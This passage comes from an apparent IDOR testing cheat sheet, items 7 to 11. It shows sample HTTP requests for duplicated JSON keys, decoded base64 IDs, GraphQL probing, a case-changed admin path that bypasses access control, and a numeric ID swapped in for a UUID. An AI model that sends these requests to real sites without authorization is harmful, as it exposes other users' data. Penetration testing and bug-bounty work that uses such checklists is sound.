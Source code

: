 7.  JSON Parameter Pollution

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

8.  Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1
Host: example.com
...
```

> dmljdGltQG1haWwuY29t => victim@mail.com

9.  If the website using GraphQL, try to find IDOR using GraphQL

```
GET /graphql HTTP/1
Host: example.com
...
```

```
GET /graphql.php?query= HTTP/1
Host: example.com
...
```

10.  MFLAC (Missing Function Level Access Control)

```
GET /admin/profile HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /ADMIN/profile HTTP/1
Host: example.com
...
```

11.  Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /file?id=302
Host: example.com
...
```
